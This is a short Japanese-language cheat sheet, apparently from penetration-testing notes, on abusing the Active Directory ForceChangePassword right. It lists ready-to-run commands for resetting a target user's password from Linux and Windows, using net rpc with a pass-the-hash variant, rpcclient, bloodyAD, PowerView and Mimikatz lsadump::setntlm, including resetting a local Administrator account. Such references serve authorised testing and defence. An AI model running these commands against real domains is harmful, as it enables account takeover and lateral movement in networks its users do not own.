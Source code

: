 # ForceChangePasswordの悪用

この悪用は、`GenericAll`、`AllExtendedRights`、または`User-Force-Change-Passwordを`持つオブジェクトを制御する際に、ターゲットユーザーに対して実行できる

## Linux

```
net rpc password "<TargetUser>" -U "<DOMAIN>"/"<USERNAME>%<PASSWORD>" -S "<DC_IP>"

# Pass-The-Hash
pth-net rpc password "<TargetUser>" -U "<DOMAIN>"/"<USERNAME>"%"ffffffffffffffffffffffffffffffff":"<NTLM_HASH>" -S "<DC_IP>"
```

rpcclient

```
rpcclient -U <DOMAIN>/<USER> <dc_ip>
rpcclient $> setuserinfo2 <TargetUser> 23 <NewPassword>
```

bloodyAD

```
bloodyAD --host "<DC_IP>" -d "<DOMAIN>" -u "<USERNAME>" -p "<PASSWORD>" set password "<TargetUser>" "<NewPassword>"
```

## Windows

PowerView

```
# 変数を作成してPassword123!を新しいパスワードに設定
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity '<Target_User>' -AccountPassword $NewPassword

# 変数なし
Set-DomainUserPassword -Identity '<Target_User>' -Verbose
Set-DomainUserPassword -Identity '<Target_User>' -AccountPassword (ConvertTo-SecureString '<NewPassword>' -AsPlainText -Force) -Verbose
```

Mimikatz

```
# ドメインユーザーのリセット
lsadump::setntlm /user:<Target_User> /password:<NewPassword> /server:<DC>

# ローカルユーザーのリセット
lsadump::setntlm /user:Administrator /password:<New_Admin_Password> /server:<Local_Server>
```
